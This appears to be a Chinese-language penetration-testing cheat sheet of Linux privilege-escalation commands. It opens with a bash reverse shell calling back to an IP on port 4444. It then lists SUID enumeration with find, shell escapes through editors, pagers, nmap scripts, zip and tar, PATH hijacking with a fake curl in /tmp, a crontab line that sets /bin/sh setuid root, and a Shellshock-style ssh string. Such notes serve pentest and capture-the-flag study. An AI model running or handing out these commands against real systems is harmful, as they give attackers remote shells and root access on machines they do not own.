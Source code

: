 ```
管道命令 | 将前面的结果给后面的命令
重定向 > 是覆盖模式，>> 是追加模式
```

#### 提权相关

```
bash -c 'sh -i &>/dev/tcp/192.168.253.139/4444 0>&1'
find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
find / -perm -u=s -type f 2>/dev/null
------------------------------------------------------
"/"命令可直接运行/bin/sh或/bin/bash
"cp"命令可将/bin/sh或/bin/bash复制到当前目录
ftp,gdb,vim,more/man/less中可运行!/bin/sh或!/bin/bash
awk 'BEGIN {system("/bin/sh或/bin/bash")}'
find . -exec /bin/sh或/bin/bash -p \;
rvim中执行:python import os; os.system("/bin/bash")
scp -S /path/yourscript x y:
+ echo 'os.execute("/bin/sh")' > getroot.nse
+ sudo nmap --script getroot.nse
-------------------------------------------------------
except spawn sh
python -c 'import os; os.system("/bin/sh")'
php -a 然后 exec("sh -i");
perl -e 'exec "/bin/sh";'
ruby -e 'exec "/bin/sh"'
Lua:os.execute('/bin/sh').
-------------------------------------------------------
cd /tmp
# cp,vim,nano
+ echo "/bin/bash" > curl
+ chmod 777 curl
- ln -s /bin/sh curl
export PATH=/tmp:$PATH
echo "* * * * * root chmod 4777 /bin/sh" | sudo teehee -a /etc/crontab
-------------------------------------------------------
ssh user@IP - t "/bin/sh"或"/bin/bash"
ssh user@IP -t "bash --noprofile"
ssh user@IP -t "() { :; }; /bin/bash"
pico -s "/bin/bash"进入编辑器写入/bin/bash然后按ctrl + T键
git -p help 然后 !/bin/sh或!/bin/bash
zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
tar cf /dev/null testfile --checkpoint=1 --checkpointaction=exec=/bin/bash
-------------------------------------------------------
python -c 'import pty; pty.spawn("/bin/bash")'
BASH_CMDS[a]=/bin/sh;a
/bin/bash
export PATH=$PATH:/bin/     #将/bin导出到PATH环境变量
export PATH=$PATH:/usr/bin  #将/usr/bin目录导出到PATH环境变量
```
